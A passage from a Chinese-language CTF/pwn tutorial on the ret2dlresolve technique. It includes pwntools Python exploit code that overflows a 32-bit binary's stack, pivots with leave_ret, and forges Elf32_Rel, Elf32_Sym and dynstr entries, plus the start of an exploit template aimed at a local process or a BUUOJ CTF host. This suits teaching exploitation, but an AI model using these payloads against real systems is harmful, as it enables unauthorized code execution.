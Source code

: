 ```python
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
r_info = (((base_addr + 0x20 - dynsym) // 0x10) << 8) | 0x7

leak_info('base_addr', base_addr)
leak_info('rel_plt', rel_plt)
leak_info('dynsym', dynsym)

payload = b'a'*0x108 + p32(base_addr-4) + p32(elf.plt['read']) + p32(leave_ret) + p32(0) + p32(base_addr) + p32(0x200)
sh.send(payload)

payload = p32(start_resolve) + p32(base_addr + 0x18 - rel_plt) + p32(0xdeadbeaf) + p32(0) + p32(bss + 0x200) + p32(0x200)
payload += p32(0x804C010) + p32(r_info) # fake Elf32_Rel结构体
payload += b'a' * 0x0 # 此处我的base_addr已经以0xc对齐，因此没有改动。若不对齐，需要以无关字符填充，使得下面这一行是0xc对齐的
payload += p32(0x22) + p32(0) + p32(0) + p32(0x12) # 4字节的st_name， 4字节的st_value， 4字节的st_size，和其他
sh.send(payload)
```

## 0x05. 伪造dynstr

若读者是一步一步看到这个地方，应该已经可以猜到我们这里要怎么做了。

是的，我们只需要再在栈上写一个假的函数名字符串`read`就可以。

而这个偏移本身是来自于`Elf32_Sym`结构体中的`st_name`，在我们的例子中原本是`0x22`。计算偏移，替换即可。

如图：

![image-20240605153649735](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406051536802.png)

那么当前的`exp`如下：

```python
from pwn import *
from LibcSearcher import *
from ae64 import AE64
from ctypes import cdll

filename = './pwn'
context.arch='i386'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 1
all_logs = []
elf = ELF(filename)
libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', )

def debug(params=''):
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid, params)
    pause()

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

```